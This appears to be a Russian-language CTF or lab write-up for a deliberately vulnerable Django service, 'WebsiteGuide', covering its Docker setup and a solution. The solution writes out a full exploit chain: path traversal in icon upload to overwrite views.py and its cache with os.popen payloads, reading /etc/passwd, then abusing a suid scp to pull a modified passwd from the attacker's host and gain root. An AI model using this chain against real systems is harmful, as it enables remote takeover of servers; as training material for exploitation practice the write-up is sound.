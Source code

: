 # Уязвимость удаленного выполнения кода с повышением привилегий сервиса `WebsiteGuide`

## Сервис WebsiteGuide

Для начала разверните сервис 

##### Установите `docker`

```sh
apt update
apt install docker docker.io
```

##### Соберите образ веб сервера

```sh
cd websiteguide
docker build --no-cache . -t websiteguide
```
##### Запустите контейнер

```sh
docker run -d --restart=always --name=websiteguide -p 8000:80 websiteguide
```

Теперь контент ресурса доступен по http://yourhost:8000

##### Создайте учетные записи пользователей

Для этого перейдите по http://yourhost:8000/admin

Логин: `admin`
Пароль: `4HfWNI4bLJzyr9ocSGGD9rlK19Dw`

После входа перейдите в **Управление пользователями** и создайте нужное количество пользователей группы.

Каждый пользователь может добавлять обычных пользователей (которые не могут блокировать и изменять чужие учетные записи)

Теперь пользователи могут активно создавать свои группы вебсайтов и просматривать чужие. 

## Легенда

В сеть утекли исходники кода приложения - `legend/views.py`

## Решение

Для успешной эксплуатации уязвимости нужно:

##### <u>Увидеть</u> (в слитом `views.py`), что иконки загружаются без проверки имени

```python
def post(self, request):
	...
    save_path = os.path.join(settings.MEDIA_ROOT, 'icon', name)
    ...
```

##### <u>Понять</u>, что можно добавлять и перезаписывать файлы на сервере.

Сделать это можно например так: 

1. Изменим сообщение методе **get** (метод срабатывает при добавлении вебсайта) слитого файла `views.py`, в который в дальнейшем и будем добавлять полезную нагрузку.

   ```python
   #return CustomResponse(
   #    status=status.HTTP_201_CREATED,
   #    msg='Добавлено успешно'
   #)
   
   # меняем на полезную нагрузку
   
   return CustomResponse(
       status=status.HTTP_201_CREATED,
       msg=f"im a {os.popen('id').read()}"
   )
   ```

2. Теперь нужно перезаписать файл `views.py` на сервере.

   Для этого открывает `burp` и отлавливаем момент передачи файла на сервер:

   ![image-20230730010101759](screen/1.png)

3. Меняем `views.py` на `../../views.py`. Так мы перезапишем файл, поскольку файлы сохраняются в  `/WebsiteGuide/websiteapp/media/icon/`, а файл `views` - в `/WebsiteGuide/websiteapp/`.

> ВАЖНО! Как можно заметить, сервер работает на `Django`, а значит файлы кэшируются по умолчанию. Чтобы исполнялся код, либо должен упасть сервер, либо мы должны перезаписать файл соответствующего кэша на сервере -`/WebsiteGuide/websiteapp/__pycache__/views.cpython-36.pyc`. Первый случай можно имитировать перезагрузкой контейнера. Во втором случае нужно скомпилировать файл `views.py` в кэш с помощью `compileall`:
>
> ```python
> import compileall
> compileall.compile_file('views.py')
> ```

4. После успешной перезаписи получаем:

![image-20230730005338480](screen/2.png)



##### <u>Понять</u>, что на файл `/usr/bin/scp` установлен `suid` бит.

Например, можно использовать `linpeas.sh`

##### <u>Узнать</u> содержимое`/etc/passwd` 

```python
return CustomResponse(
    status=status.HTTP_201_CREATED,
    msg=os.popen('cat /etc/passwd').read()
)
```

![image-20230730011922039](screen/3.png)

##### <u>Перезаписать</u> файл `/etc/passwd` используя `scp`

1. Меняем в`/etc/passwd` последнюю строчку, добавив пользователя `websiteguide` в группу `root`.

2. Сгенерируем ключи `rsa` для дальнейшего использования. Чтобы подключаться без ввода пароля скопируем себе на хост сгенерированный ключ:

   ```python
   return CustomResponse(
       status=status.HTTP_201_CREATED,
       msg=os.popen('ssh-keygen -t rsa -b 4096 -P "" -f ./id_rsa && cat ./id_rsa.pub').read()
   )
   ```

   И проверяем, что выполнилось без ошибки

   ![image-20230730205344943](screen/4.png)

3. Скопируем публичный ключ и вставим его в файл `~/.ssh/authorized_keys` на своем хосте:

   ```sh
   echo "ssh-rsa AAAAB3N[тут длинная часть ключа]CVsQ== websiteguide@8c2aedce79b2" >> ~/.ssh/authorized_keys
   ```

4. Теперь можно одной командой загрузить нашу полезную нагрузку:

   ```python
   return CustomResponse(
       status=status.HTTP_201_CREATED,
       msg=f"{os.system('scp -i ./id_rsa your_username@your_ip_addr:/path/to/passwd /etc/passwd')}"
   )
   ```

   Проверяем, что выполнено успешно:

   ![image-20230730214441234](screen/5.png)

5. Проверяем, что пользователь `websiteguide` состоит в группе `root`:

   ```python
   return CustomResponse(
       status=status.HTTP_201_CREATED,
       msg=os.popen('id').read()
   )
   ```

   ![image-20230730215404353](screen/6.png)

   

##### <u>Выполнять</u> команды от `root`.

Для простоты лучше всего аналогичным образом подключиться по `ssh`, но только теперь сгенерировать ключи на хостовой машине и скопировать их на сервер.

